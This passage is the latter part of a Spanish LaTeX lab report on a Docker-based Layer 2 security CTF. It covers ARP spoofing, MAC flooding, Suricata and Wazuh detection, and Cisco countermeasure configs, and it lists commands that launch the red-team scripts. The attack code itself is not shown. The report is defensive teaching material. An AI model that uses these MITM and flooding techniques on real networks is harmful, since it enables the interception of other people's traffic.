    
\includegraphics[width=\textwidth]{macflooding.png}
    \caption{Captura de Wireshark mostrando ARP Requests masivos con direcciones MAC aleatorias, caracter\'istico del ataque de MAC Flooding. Se observan MACs con el bit localmente administrado activado.}
    \label{fig:wireshark-macflood}
\end{figure}

\subsection{Resumen de Resultados}

\begin{table}[H]
    \centering
    \caption{Resumen consolidado de resultados del laboratorio.}
    \label{tab:summary-results}
    \begin{tabularx}{\textwidth}{|X|c|c|}
        \hline
        \textbf{Objetivo} & \textbf{Resultado} & \textbf{Estado} \\
        \hline\hline
        Capturar flags v\'ia MITM & 3/3 & Exitoso \\
        \hline
        Envenenar tablas ARP & Verificado & Exitoso \\
        \hline
        Ejecutar MAC Flooding & 1000+ paquetes & Exitoso \\
        \hline
        Detectar ARP Spoofing (Blue Team) & 158+ alertas & Exitoso \\
        \hline
        Detectar MAC Flooding (Blue Team) & 30+ MACs nuevas & Exitoso \\
        \hline
        Restaurar tablas ARP & Verificado & Exitoso \\
        \hline
        Alertas Suricata & 90 alertas & Exitoso \\
        \hline
        Integraci\'on Wazuh & 480+ alertas en dashboard & Exitoso \\
        \hline
        Plataforma CTFd & 6 desaf\'ios activos & Exitoso \\
        \hline
    \end{tabularx}
\end{table}

\newpage

% ============================================================================
\section{An\'alisis de Seguridad y Recomendaciones}
% ============================================================================

Los resultados del laboratorio demuestran que las redes sin controles de seguridad en Capa 2 son extremadamente vulnerables. A continuaci\'on se analizan las contramedidas recomendadas para entornos de producci\'on.

\subsection{Vulnerabilidades Identificadas}

\begin{enumerate}[leftmargin=2cm]
    \item \textbf{Ausencia de autenticaci\'on ARP}: El protocolo ARP no verifica la identidad del remitente, permitiendo la suplantaci\'on de cualquier host.
    \item \textbf{Tablas CAM finitas}: La capacidad limitada de las tablas CAM permite ataques de desbordamiento.
    \item \textbf{Tr\'afico HTTP sin cifrar}: Las comunicaciones en texto plano exponen datos sensibles a cualquier observador en la red.
    \item \textbf{Confianza impl\'icita en la red local}: Los dispositivos confian ciegamente en las respuestas ARP recibidas.
\end{enumerate}

\subsection{Contramedidas Recomendadas}

\subsubsection{Dynamic ARP Inspection (DAI)}

DAI es una funci\'on de seguridad disponible en switches gestionados (Cisco, Juniper, etc.) que valida los paquetes ARP contra una base de datos de asociaciones IP-MAC confiables, t\'ipicamente derivada de DHCP Snooping.

\textbf{Funcionamiento}:
\begin{itemize}[leftmargin=2cm]
    \item Los puertos se clasifican como \textit{trusted} (confiables) o \textit{untrusted} (no confiables).
    \item Los paquetes ARP recibidos en puertos \textit{untrusted} se validan contra la tabla de \textit{bindings} de DHCP Snooping.
    \item Los paquetes ARP que no coinciden con una entrada v\'alida se descartan y se genera un log.
\end{itemize}

\begin{lstlisting}[style=bashstyle, caption={Configuraci\'on de DAI en Cisco IOS}]
! Habilitar DHCP Snooping (prerequisito)
ip dhcp snooping
ip dhcp snooping vlan 10

! Habilitar DAI
ip arp inspection vlan 10

! Puerto confiable (hacia el servidor DHCP/router)
interface GigabitEthernet0/1
  ip dhcp snooping trust
  ip arp inspection trust

! Puerto no confiable (hacia hosts)
interface GigabitEthernet0/2
  ! Por defecto es untrusted
  ip arp inspection limit rate 15
\end{lstlisting}

\subsubsection{Port Security}

Port Security limita el n\'umero de direcciones MAC permitidas por puerto del switch, previniendo efectivamente el ataque de MAC Flooding.

\begin{lstlisting}[style=bashstyle, caption={Configuraci\'on de Port Security en Cisco IOS}]
interface GigabitEthernet0/2
  switchport mode access
  switchport port-security
  switchport port-security maximum 2
  switchport port-security violation shutdown
  switchport port-security mac-address sticky
\end{lstlisting}

\textbf{Modos de violaci\'on}:
\begin{itemize}[leftmargin=2cm]
    \item \texttt{shutdown}: Deshabilita el puerto (m\'as seguro).
    \item \texttt{restrict}: Descarta tramas no autorizadas y genera log.
    \item \texttt{protect}: Descarta tramas silenciosamente.
\end{itemize}

\subsubsection{DHCP Snooping}

DHCP Snooping act\'ua como un firewall entre hosts no confiables y servidores DHCP confiables. Construye y mantiene una tabla de \textit{bindings} (asociaciones IP-MAC-Puerto-VLAN) que es utilizada por DAI y otras funciones de seguridad.

\begin{itemize}[leftmargin=2cm]
    \item Filtra mensajes DHCP no autorizados (evita servidores DHCP \textit{rogue}).
    \item Proporciona la base de datos para DAI.
    \item Limita la tasa de solicitudes DHCP por puerto.
\end{itemize}

\subsubsection{IEEE 802.1X (Control de Acceso a la Red)}

802.1X proporciona autenticaci\'on basada en puertos para el acceso a la red. Antes de que un dispositivo pueda enviar o recibir tr\'afico en la red, debe autenticarse exitosamente contra un servidor RADIUS.

\textbf{Componentes}:
\begin{itemize}[leftmargin=2cm]
    \item \textbf{Suplicante}: Software en el dispositivo del usuario.
    \item \textbf{Autenticador}: El switch de acceso.
    \item \textbf{Servidor de Autenticaci\'on}: Servidor RADIUS (FreeRADIUS, Microsoft NPS).
\end{itemize}

Esta medida previene que dispositivos no autorizados se conecten a la red, eliminando la posibilidad de ejecutar ataques de Capa 2 desde equipos externos.

\subsubsection{Entradas ARP Est\'aticas}

En redes peque\~nas o para hosts cr\'iticos, es posible configurar entradas ARP est\'aticas que no pueden ser sobrescritas por paquetes ARP din\'amicos:

\begin{lstlisting}[style=bashstyle, caption={Configuraci\'on de ARP est\'atico en Linux}]
# Agregar entrada ARP estatica para el gateway
arp -s 172.20.0.2 02:42:ac:14:00:02

# Verificar
arp -n | grep 172.20.0.2
172.20.0.2  ether  02:42:ac:14:00:02  CM  eth0
\end{lstlisting}

\textbf{Limitaciones}: No escala en redes grandes y requiere mantenimiento manual cuando se reemplazan dispositivos.

\subsubsection{Segmentaci\'on de Red (VLANs)}

La segmentaci\'on de la red en VLANs (\textit{Virtual Local Area Networks}) limita el dominio de difusi\'on, reduciendo el alcance de los ataques de Capa 2:

\begin{itemize}[leftmargin=2cm]
    \item Los ataques ARP Spoofing solo afectan a los hosts dentro de la misma VLAN.
    \item El MAC Flooding solo impacta la tabla CAM asociada a la VLAN del atacante.
    \item La comunicaci\'on entre VLANs requiere routing de Capa 3, donde se pueden aplicar ACLs y firewalls.
\end{itemize}

\subsubsection{Cifrado de Tr\'afico (TLS/HTTPS)}

Aunque no es una medida de Capa 2, el cifrado del tr\'afico mediante TLS/HTTPS mitiga el impacto de un MITM exitoso:

\begin{itemize}[leftmargin=2cm]
    \item El atacante puede interceptar el tr\'afico pero no puede leer el contenido cifrado.
    \item Las flags y credenciales transmitidas v\'ia HTTPS no ser\'ian visibles en texto plano.
    \item Los certificados TLS proporcionan autenticaci\'on del servidor, dificultando ataques de \textit{SSL stripping}.
\end{itemize}

\subsection{Matriz de Contramedidas}

\begin{table}[H]
    \centering
    \caption{Efectividad de las contramedidas contra los ataques demostrados.}
    \label{tab:countermeasures}
    \begin{tabular}{|l|c|c|c|}
        \hline
        \textbf{Contramedida} & \textbf{ARP Spoofing} & \textbf{MAC Flooding} & \textbf{MITM HTTP} \\
        \hline\hline
        DAI & \checkmark\checkmark & -- & -- \\
        \hline
        Port Security & -- & \checkmark\checkmark & -- \\
        \hline
        DHCP Snooping & \checkmark & -- & -- \\
        \hline
        802.1X & \checkmark\checkmark & \checkmark\checkmark & -- \\
        \hline
        ARP Est\'atico & \checkmark\checkmark & -- & -- \\
        \hline
        VLANs & \checkmark & \checkmark & -- \\
        \hline
        TLS/HTTPS & -- & -- & \checkmark\checkmark \\
        \hline
    \end{tabular}

    \vspace{0.3cm}
    \footnotesize{\checkmark\checkmark\ = Previene directamente \quad \checkmark\ = Mitiga parcialmente \quad -- = No aplica}
\end{table}

\newpage

% ============================================================================
\section{Lecciones Aprendidas y Desaf\'ios T\'ecnicos}
% ============================================================================

\subsection{Desaf\'ios en la Implementaci\'on}

Durante el desarrollo del laboratorio se enfrentaron varios desaf\'ios t\'ecnicos significativos:

\begin{enumerate}[leftmargin=2cm]
    \item \textbf{ARP Spoofing en redes switched}: En un switch (incluyendo el bridge de Docker), los paquetes ARP Reply unicast solo llegan al puerto de destino. Fue necesario utilizar el modo broadcast para que el Blue Team pudiera detectar los paquetes falsificados. En un entorno real, el Blue Team necesitar\'ia acceso a un puerto SPAN o utilizar un agente HIDS.

    \item \textbf{Suricata y protocolo ARP}: Las reglas de Suricata no soportan ``arp'' como protocolo v\'alido. Se resolvi\'o utilizando \texttt{pkthdr} con coincidencia de bytes crudos, lo cual requiri\'o conocimiento del formato binario de las tramas ARP (EtherType \texttt{0x0806}, campo de operaci\'on en los bytes 20--21).

    \item \textbf{Gateway HTTP para Victim3}: El contenedor Victim3, que env\'ia POST peri\'odicos, requiere que el destino (gateway) tenga un servidor HTTP funcional en el puerto 80. Sin este servidor, la conexi\'on TCP no se completa y el paquete con la flag nunca se transmite por la red, impidiendo su interceptaci\'on v\'ia MITM.

    \item \textbf{Configuraci\'on SSL de Wazuh}: El stack de Wazuh requiere certificados SSL espec\'ificos para la comunicaci\'on entre el Indexer, Manager y Dashboard. Se utilizaron los patrones de despliegue oficiales de la versi\'on 4.9.2 para garantizar la compatibilidad.

    \item \textbf{Network namespace compartido}: La configuraci\'on \texttt{network\_mode: service:gateway} para Suricata genera dependencias de inicio: Suricata no puede iniciar hasta que el gateway est\'e completamente operativo. Se gestion\'o con \texttt{depends\_on} y pol\'iticas de reinicio.
\end{enumerate}

\subsection{Lecciones Aprendidas}

\begin{itemize}[leftmargin=2cm]
    \item \textbf{Docker como plataforma de laboratorio}: La virtualizaci\'on con contenedores Docker demuestra ser una alternativa viable y accesible para la creaci\'on de laboratorios de seguridad de red, sin requerir hardware f\'isico costoso.

    \item \textbf{Defensa en profundidad}: Ning\'una contramedida individual es suficiente. La combinaci\'on de detecci\'on (Suricata + Wazuh), monitoreo activo (Blue Team) y prevenci\'on (DAI, Port Security) proporciona la cobertura de seguridad m\'as completa.

    \item \textbf{Visibilidad como requisito}: La detecci\'on de ataques de Capa 2 requiere visibilidad del tr\'afico a nivel de trama. Sin acceso a un puerto SPAN o tecnolog\'ia equivalente, los IDS de red no pueden detectar estos ataques.

    \item \textbf{Scapy como herramienta educativa}: Scapy permite construir ataques y defensas desde cero, proporcionando una comprensi\'on profunda de los protocolos involucrados, superior a la que se obtiene con herramientas automatizadas como \texttt{arpspoof} o \texttt{ettercap}.
\end{itemize}

\newpage

% ============================================================================
\section{Conclusiones}
% ============================================================================

El presente proyecto ha logrado cumplir todos los objetivos planteados, demostrando de manera pr\'actica tanto la peligrosidad de los ataques de Capa 2 como la viabilidad de implementar defensas efectivas en un entorno controlado.

\subsection{Hallazgos Principales}

\begin{enumerate}[leftmargin=2cm]
    \item \textbf{Los ataques de Capa 2 son triviales de ejecutar y devastadores en su impacto}. Con menos de 20 l\'ineas de c\'odigo Python/Scapy, es posible posicionarse como \textit{Man-in-the-Middle} en una red sin protecciones, interceptando todo el tr\'afico en texto plano. La captura de las 3 flags (100\% de \'exito) demuestra que cualquier servicio sin cifrado es completamente vulnerable ante un atacante con acceso al segmento de red.

    \item \textbf{La detecci\'on es posible y efectiva con herramientas de c\'odigo abierto}. El monitor ARP del Blue Team detect\'o el ataque en menos de 5 segundos con 0 falsos positivos, generando 158+ alertas. El detector de anomal\'ias MAC identific\'o correctamente el 43\% del tr\'afico como sospechoso durante el MAC Flooding. Suricata gener\'o 90 alertas adicionales que fueron correlacionadas por Wazuh.

    \item \textbf{La prevenci\'on requiere controles a nivel de infraestructura de red}. Las herramientas de detecci\'on son necesarias pero no suficientes: la prevenci\'on real requiere la implementaci\'on de DAI, Port Security, DHCP Snooping y 802.1X en los switches de la red. Estas funciones est\'an disponibles en switches gestionados modernos pero frecuentemente no se configuran.

    \item \textbf{Docker es una plataforma viable para laboratorios de seguridad de red}. La capacidad de simular un segmento LAN completo con 13 contenedores en una sola m\'aquina demuestra que la pr\'actica de seguridad de red no requiere hardware costoso. El puente Linux proporciona un comportamiento de Capa 2 suficientemente realista para prop\'ositos educativos.

    \item \textbf{El cifrado de tr\'afico es la \'ultima l\'inea de defensa}. Incluso cuando un atacante logra establecer un MITM, el uso de TLS/HTTPS protege la confidencialidad de los datos transmitidos. Los servicios vulnerables de este laboratorio utilizaban HTTP intencionalmente para demostrar este punto.
\end{enumerate}

\subsection{Contribuciones del Proyecto}

\begin{itemize}[leftmargin=2cm]
    \item Un laboratorio completo y reproducible para la ense\~nanza de seguridad de Capa 2, desplegable con un solo comando (\texttt{docker-compose up -d}).
    \item Herramientas de ataque y defensa documentadas y educativas, construidas desde cero con Scapy.
    \item Integraci\'on funcional de NIDS (Suricata) y SIEM (Wazuh) para la detecci\'on y correlaci\'on de eventos de seguridad de Capa 2.
    \item Una plataforma CTF con 6 desaf\'ios que cubren tanto habilidades ofensivas como defensivas.
    \item Documentaci\'on de desaf\'ios t\'ecnicos y soluciones que pueden beneficiar a futuros proyectos similares.
\end{itemize}

\subsection{Trabajo Futuro}

\begin{itemize}[leftmargin=2cm]
    \item Incorporar ataques adicionales de Capa 2: VLAN Hopping, STP Manipulation, DHCP Starvation.
    \item Implementar switches virtuales con Open vSwitch (OVS) para simular DAI y Port Security.
    \item A\~nadir ataques de Capa 3 y superiores (DNS Spoofing, SSL Stripping) para un laboratorio m\'as completo.
    \item Desarrollar un modo autom\'atico de ejecuci\'on para demostraciones en clase.
    \item Explorar la integraci\'on con plataformas de orquestaci\'on como Kubernetes para mayor escalabilidad.
\end{itemize}

\newpage

% ============================================================================
\section{Referencias}
% ============================================================================

\begin{enumerate}[leftmargin=2cm, label={[\arabic*]}]
    \item Plummer, D. C. (1982). \textit{An Ethernet Address Resolution Protocol: Or Converting Network Protocol Addresses to 48.bit Ethernet Address for Transmission on Ethernet Hardware}. RFC 826. IETF. \url{https://datatracker.ietf.org/doc/html/rfc826}

    \item Bellovin, S. M. (2004). \textit{A Look Back at ``Security Problems in the TCP/IP Protocol Suite''}. In Proceedings of the 20th Annual Computer Security Applications Conference (ACSAC). IEEE.

    \item Ornaghi, A., \& Valleri, M. (2003). \textit{Man in the Middle Attacks}. Blackhat Conference Europe. \url{https://www.blackhat.com/presentations/bh-europe-03/bh-europe-03-valleri.pdf}

    \item Cisco Systems. (2023). \textit{Catalyst Switch Configuration Guide: Configuring Dynamic ARP Inspection}. Cisco. \url{https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst/}

    \item Cisco Systems. (2023). \textit{Catalyst Switch Configuration Guide: Configuring Port Security}. Cisco. \url{https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst/}

    \item Open Information Security Foundation (OISF). (2024). \textit{Suricata User Guide}. Suricata. \url{https://docs.suricata.io/en/latest/}

    \item Wazuh Inc. (2024). \textit{Wazuh Documentation: Deployment on Docker}. Wazuh. \url{https://documentation.wazuh.com/current/deployment-options/docker/}

    \item Biondi, P. (2024). \textit{Scapy: Packet crafting for Python2 and Python3}. \url{https://scapy.net/}

    \item Docker Inc. (2024). \textit{Docker Documentation: Networking overview}. Docker. \url{https://docs.docker.com/network/}

    \item IEEE Standards Association. (2020). \textit{IEEE 802.1X-2020 - Port-Based Network Access Control}. IEEE. \url{https://standards.ieee.org/ieee/802.1X/7345/}

    \item Sanders, C. (2017). \textit{Practical Packet Analysis: Using Wireshark to Solve Real-World Network Problems} (3rd ed.). No Starch Press.

    \item Tanenbaum, A. S., \& Wetherall, D. J. (2011). \textit{Computer Networks} (5th ed.). Pearson.

    \item CTFd LLC. (2024). \textit{CTFd Documentation}. \url{https://docs.ctfd.io/}

    \item Kurose, J. F., \& Ross, K. W. (2021). \textit{Computer Networking: A Top-Down Approach} (8th ed.). Pearson.

    \item NIST. (2020). \textit{Special Publication 800-53 Rev. 5: Security and Privacy Controls for Information Systems and Organizations}. National Institute of Standards and Technology. \url{https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final}
\end{enumerate}

\newpage

% ============================================================================
% APENDICES
% ============================================================================
\appendix

\section{Estructura del Repositorio}
\label{app:repo-structure}

\begin{lstlisting}[style=bashstyle, caption={Estructura de directorios del proyecto}]
ctf-layer2-security/
|-- docker-compose.yml
|-- containers/
|   |-- gateway/
|   |   |-- Dockerfile
|   |   +-- server.py
|   |-- victim1/
|   |   |-- Dockerfile
|   |   +-- index.html
|   |-- victim2/
|   |   |-- Dockerfile
|   |   +-- db_credentials.txt
|   |-- victim3/
|   |   |-- Dockerfile
|   |   +-- beacon.py
|   |-- redteam/
|   |   |-- Dockerfile
|   |   |-- arp_spoof.py
|   |   |-- mac_flood.py
|   |   |-- capture_flags.py
|   |   +-- submit_flag.py
|   |-- blueteam/
|   |   |-- Dockerfile
|   |   |-- arp_monitor.py
|   |   |-- mac_anomaly_detector.py
|   |   +-- arp_restore.py
|   |-- suricata/
|   |   |-- Dockerfile
|   |   |-- suricata.yaml
|   |   +-- custom.rules
|   +-- wazuh/
|       |-- docker-compose.yml
|       +-- config/
|-- scripts/
|   |-- setup_ctfd.py
|   +-- run_demo.sh
|-- analysis/
|   +-- results/
+-- docs/
    +-- informe_tecnico.tex
\end{lstlisting}

\section{Comandos de Ejecuci\'on}
\label{app:commands}

\begin{lstlisting}[style=bashstyle, caption={Comandos para desplegar y ejecutar el laboratorio}]
# Desplegar toda la infraestructura
cd ctf-layer2-security
docker-compose up -d

# Verificar contenedores
docker-compose ps

# Ejecutar ARP Spoofing (Red Team)
docker exec -it redteam python3 arp_spoof.py

# Ejecutar captura de flags (Red Team)
docker exec -it redteam python3 capture_flags.py

# Ejecutar MAC Flooding (Red Team)
docker exec -it redteam python3 mac_flood.py

# Iniciar monitor ARP (Blue Team)
docker exec -it blueteam python3 arp_monitor.py

# Iniciar detector de anomalias MAC (Blue Team)
docker exec -it blueteam python3 mac_anomaly_detector.py

# Restaurar tablas ARP (Blue Team)
docker exec -it blueteam python3 arp_restore.py

# Ver alertas de Suricata
docker exec -it suricata cat /var/log/suricata/eve.json | \
    jq 'select(.event_type=="alert")'

# Acceder al dashboard de Wazuh
# https://localhost:5601

# Acceder a la plataforma CTFd
# http://localhost:8000

# Detener la infraestructura
docker-compose down -v
\end{lstlisting}

\end{document}
